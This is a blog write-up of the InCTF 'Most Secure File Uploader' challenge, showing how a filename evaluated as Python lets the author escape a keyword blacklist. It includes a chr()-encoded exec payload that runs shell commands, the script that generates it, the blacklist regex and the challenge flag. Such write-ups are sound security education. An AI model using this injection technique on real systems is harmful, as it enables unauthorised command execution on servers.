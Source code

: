 ```yaml
---
layout: post
title: "InCTF: The Most Secure File Uploader"
date: 2018-10-07
excerpt: "From file upload to python RCE. Who would've guessed the solution had to do with the chr() and ord() functions?"
tags: [CTF, Python, Jail]
comments: true
feature: https://news-images.vice.com/images/articles/meta/2015/07/31/alabama-cops-allegedly-brought-a-python-into-jail-to-torture-an-inmate-1438382699.jpg?crop=1xw:0.918918918918919xh;0xw,0.04054054054054054xh&resize=1200:*&output-format=image/jpeg&output-quality=75
---
```


# InCTF: The Most Secure File Uploader

This was the first challenge I completed on InCTF. The first thing we get is:

![Img](/assets/posts_details/InCTF/File_uploader/intro.png "Img")

So going to the page we check that we need to upload a file.

![Img](/assets/posts_details/InCTF/File_uploader/page.png "Img")

At first I tried to upload a ``.txt`` file but the output was that I needed an image file:

![Img](/assets/posts_details/InCTF/File_uploader/format.png "Img")

With that in mind, I changed my file to mimic a PNG. In order to do that I did two things.

1. I changed the extension from ``.txt`` to ``.png``
2. I added to my file the PNG file header, which is ``89 50 4E 47 0D 0A 1A 0A``.

Then, I tried to upload it again. However, a strange error took place:

![Img](/assets/posts_details/InCTF/File_uploader/error.png "Img")

Mmmmm... That's odd. My filename was ``experiment.png`` and the error, which comes from a python program, indicates that the variable 'name' does not exist. I tried to print something (assuming we were using python 2.x) and so that I didn't get any errors I decided to comment the file extension:

![Img](/assets/posts_details/InCTF/File_uploader/first.png "Img")

Looks like we have some kind of blacklist in which the plus sign is included, so I tried with python 3.x print syntax.

![Img](/assets/posts_details/InCTF/File_uploader/second.png "Img")

And voilà! We managed to get command execution! Our ``A`` was printed after everything else!

Once here, I decided to look at variables in the source code, maybe the flag is there. Nonetheless, ``locals`` was blacklisted and ``dir()`` wasn't useful at all.

![Img](/assets/posts_details/InCTF/File_uploader/third.png "Img")

Nothing. Then, I thought maybe the flag was in an external file, so I tried importing the ``os`` module. But guess what? ``Import`` was blacklisted as well.

### Solution

I finally found a solution to bypass the blacklist and be able to import modules. It consisted basically of using the ``chr()`` function, which turns a decimal integer into its corresponding ASCII character. Checking that it works:

![Img](/assets/posts_details/InCTF/File_uploader/fourth.png "Img")

Then, I decided to use the following code:

```py
list = "import os;os.system('ls')"
command = []
for i in list:
    command.append("chr({})".format(ord(i)))
eval(''.join(command))
```

And it turned out to work!!!

![Img](/assets/posts_details/InCTF/File_uploader/fifth.png "Img")

Now we can only change the command from ``ls`` to ``cat *`` and we'll get the source code of flag and the other two files!

![Img](/assets/posts_details/InCTF/File_uploader/sixth.png "Img")

A noticeable thing is the blacklist and the fact that the script checked if the file had both a valid header and extension.

Blacklist:

``"import|os|class|subclasses|mro|request|args|eval|if|for|\%|
subprocess|file|open|popen|builtins|\+|compile|execfile|from_pyfile|config|local|\`|\||\&|\;|\{|\}"``

Final exploit:

```py
exec(''.join([chr(105),chr(109),chr(112),chr(111),chr(114),chr(116),chr(32),chr(111),chr(115),chr(59),chr(111),chr(115),chr(46),chr(115),chr(121),chr(115),chr(116),chr(101),chr(109),chr(40),chr(39),chr(99),chr(97),chr(116),chr(32),chr(42),chr(39),chr(41)]))#.png
```

And we get our flag: ``inctf{w0w_pyth0n_mad3_my_lif3_s0_3z}``.
